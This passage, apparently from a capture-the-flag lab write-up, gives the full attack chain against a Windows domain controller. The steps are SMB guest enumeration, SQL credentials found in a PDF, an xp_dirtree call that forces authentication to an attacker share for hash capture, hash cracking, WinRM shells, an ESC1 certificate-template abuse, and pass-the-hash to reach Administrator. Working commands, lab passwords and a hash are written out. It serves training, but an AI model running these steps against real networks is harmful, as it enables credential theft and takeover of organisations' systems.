        → Shares: ADMIN$, C$, IPC$, NETLOGON, Public, SYSVOL
        → Public share = unauthenticated read access

[4] smbclient //10.129.228.253/Public -N → ls
        → SQL Server Procedures.pdf (49551 bytes)
        → get "SQL Server Procedures.pdf"

[5] Open PDF → Bonus section
        → SQL credentials: PublicUser : GuestUserCantWrite1

[6] impacket-mssqlclient PublicUser:'GuestUserCantWrite1'@10.129.228.253
        → Authenticated to SQL Server as guest on master

[7] (Parallel) sudo responder -I tun0
        → LLMNR/NBT-NS/MDNS poisoners active

[8] SQL: EXEC master..xp_dirtree '\\<ATTACKER_IP>\share', 1, 1
        → SQL Server service account authenticates to attacker share
        → Responder captures: sequel\sql_svc NTLMv2 hash

[9] hashcat -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt
        → Cracked in 8 seconds: sql_svc : REGGIE1234ronnie

[10] evil-winrm -i 10.129.228.253 -u sql_svc -p REGGIE1234ronnie
        → WinRM shell as sql_svc
        → Discovered: C:\SQLServer\LOGs\ERRORLOG.BAK

[11] cat C:\SQLServer\LOGs\ERRORLOG.BAK
        → Failed login: user 'NuclearMosquito3' → password typed in username field
        → Credentials: Ryan.Cooper : NuclearMosquito3

[12] evil-winrm -i 10.129.228.253 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
        → WinRM shell as Ryan.Cooper
        → cat Desktop\user.txt → user flag ✓

[13] certipy-ad find -u 'Ryan.Cooper@sequel.htb' -p 'NuclearMosquito3' -dc-ip 10.129.228.253 -vulnerable -stdout
        → CA: sequel-DC-CA
        → Vulnerable template: UserAuthentication (ESC1 — Enrollee Supplies Subject: True)

[14] certipy-ad req -u 'Ryan.Cooper@sequel.htb' ... -template 'UserAuthentication' -upn 'administrator@sequel.htb'
        → Certificate issued → saved as administrator.pfx

[15] certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.228.253
        → KRB_AP_ERR_SKEW → fix with: sudo timedatectl set-ntp off && sudo rdate -n 10.129.228.253
        → Re-run auth → NTLM hash: a52f78e4c751e5f5e17e1e9f3e58f4ee

[16] evil-winrm -i 10.129.228.253 -u 'administrator' -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee'
        → Administrator shell
        → cat Desktop\root.txt → root flag ✓
```

---

## 15. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `smbclient` | SMB share enumeration & file download |
| `impacket-mssqlclient` | MSSQL connection with SQL Server auth |
| `responder` | NTLMv2 hash capture (LLMNR/NBT-NS poisoning) |
| `hashcat` | NTLMv2 hash cracking (`-m 5600`, rockyou.txt) |
| `evil-winrm` | WinRM remote shell (password & Pass-the-Hash) |
| `certipy-ad` | ADCS enumeration & ESC1 exploitation |
| `timedatectl` / `rdate` | Clock synchronization for Kerberos |
